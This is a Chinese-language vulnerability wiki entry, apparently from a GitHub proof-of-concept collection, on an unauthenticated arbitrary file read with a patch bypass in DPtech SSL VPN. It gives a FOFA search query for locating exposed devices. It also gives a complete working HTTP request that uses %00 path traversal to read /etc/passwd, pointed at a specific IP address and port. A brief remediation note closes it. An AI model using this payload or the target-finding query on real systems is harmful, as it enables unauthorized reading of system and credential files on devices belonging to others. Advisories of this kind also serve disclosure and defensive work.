

---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 迪普SSL VPN 任意文件读取漏洞复现(补丁绕过) 

# 漏洞描述

迪普SSL VPN 存在任意文件读取漏洞，未经身份验证攻击者可通过%00绕过补丁安全校验机制，读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。

# 影响版本

迪普SSL VPN

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="DPtech-SSLVPN"

POC/EXP：

GET /.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2F.%00.%2Fetc%2Fpasswd HTTP/1.1
Host: 58.215.24.114:6443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Connection: keep-alive

# 修复方案

关闭互联网暴露面或接口设置访问权限

目前厂商尚未发布相关补丁信息，请关注厂商及时更新补丁

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
